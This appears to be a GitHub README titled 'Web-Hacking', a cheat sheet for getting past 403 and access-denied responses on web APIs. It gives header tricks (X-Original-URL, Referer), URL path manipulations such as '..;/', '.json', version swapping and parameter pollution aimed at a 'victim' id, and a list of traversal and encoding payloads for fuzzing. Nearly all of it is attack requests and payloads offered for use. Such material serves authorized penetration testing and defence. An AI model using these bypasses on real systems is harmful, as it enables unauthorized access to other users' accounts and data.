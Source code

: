 # Web-Hacking #
## Topics 

#### Tricks
<b>If you want do bypass endpoint always try to use own methodology.</b>

<b>Example</b>:

Http Header based bypass:

<b>1.</b> X-Original-URL: /redact

<b>Example:</b><br/>
 
GET /api/getUser HTTP/1.1 → 403
Host: redact.com

GET / HTTP/1.1
Host: redact.com
X-Original-URL: /api/getUser → 200 OK

<b>2.</b> Referer: https://site.com/api/redact

Example:<br/>
  

GET /api/getUser HTTP/1.1 → acess denied
Host: redact.com

  
  
GET / HTTP/1.1
Host: redact.com
Referer: https://site.com/api/getUser → 200 OK
 
  or
  
GET / HTTP/1.1
Host: redact.com
Referer: https://site.com/api/getUser → 200 ok

More examples:

<b>3</b>. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid.json → bypass ok

<b>4</b>. https://site.com/api/v1/redactid → acess denied
https://site.com/api/v1/users/redactid: → bypass ok

<b>5</b>. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid..;/ → bypass ok

<b>6</b>. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid\..\.\getUser → bypass ok

<b>7</b>. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid/ → bypass ok

<b>8</b>. https://site.com/api/v1/users/redactid → acess denied
https://site.com/api/v1/users/redactid?? → bypass ok

<b>9</b>. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v2/users/redactid → bypass ok
            or
https://site.com/api/v3/users/redactid → bypass ok

<b>10</b>. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid&accountdetails → bypass ok

<b>11</b>. https://site.com/api/v1/users/victim?id=BAEILsaqQhk → acess denied
https://site.com/api/v1/users/your?id=UAEILsdUf50&victim?id=BAEILsaqQhk → bypass ok

<b>12</b>. https://site.com/api/v1/users/redactid → access denied
https://site.com/api/v1/users/redactid/email → bypass ok

Payload for basic test:

? <br/>
?? <br/>
& <br/>
'#' <br/>
% <br/>
%20 <br/>
%09 <br/>
/ <br/>
/..;/ <br/>
../ <br/>
..$2f <br/>
..;/ <br/>
../ <br/>
\..\.\ <br/>
.././ <br/>
..%00/ <br/>
.%0d/ <br/>
..%5c <br/>
..\ <br/>
..%ff/ <br/>
%2e%2e%2f <br/>
.%2e/ <br/>
%3f <br/>
%26 <br/>
%23 <br/>
.json <br/>

HTTP Header based bypass:

1. X-Original-URL: /redact
2. Referer: https://site.com/api/redact



